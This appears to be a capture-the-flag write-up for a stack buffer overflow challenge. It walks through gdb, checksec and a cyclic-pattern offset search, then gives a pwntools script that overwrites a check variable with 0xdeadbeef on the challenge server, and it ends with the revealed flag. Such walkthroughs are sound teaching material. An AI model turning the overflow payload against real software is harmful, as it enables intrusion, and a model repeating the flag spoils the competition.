 +++
title = 'What the canary'
date = '2024-09-05'
authors = ["Achintya J"]
+++



This provides us with a binary and the source code for a vulnerable program (hence the name vuln, duh). Now we'll open the file using `gdb`, note that I am using `gdb-peda`and you might be using something else, so adapt accordingly

		gdb -q ./vuln
		checksec

running `checksec` we can see that even though the challenge talks about canaries, there aren't any canaries! If we run the program (just type `r`) we can see that it expects us to enter something.

Entering a random string we get this sort of a message,

		code == 0x0
		code != 0xdeadbeef :(
		Well, that was unexpected...

Well that means, we want the code to be `0xdeadbeef`. The first thing we'll need to do is find out what offset overwrites this value. So, head over to [this](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) link to generate a random string.

Entering the 100 byte string: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A", we get this

		code == 0x4130634139624138
		code != 0xdeadbeef :(
		Well, that was unexpected...

So, we've written something... what is that? If we convert that from hex, we can see that its "A0cA9bA8". This string is not present anywhere in our input! However, its reverse "8Ab9Ac0A" is at the `56th` offset. 

What this means is, if we enter 56 bytes, then the next 8 bytes will overwrite this address. This simple script can therefore be used to achieve the flag.

		from pwn import *
		context.binary = binary = ELF("./vuln")
		context.log_level = "critical"
		payload = flat([
			b"A"*56,
			p32(0xdeadbeef) # simply enter the exact address, it will handle the endianness in its default values
			])
		p = remote('10.21.232.38', 7001)
		p.sendline(payload)
		p.interactive()


flag: `iitmCTF{N0-C@n@r!35-r3Qu!r3|)}`
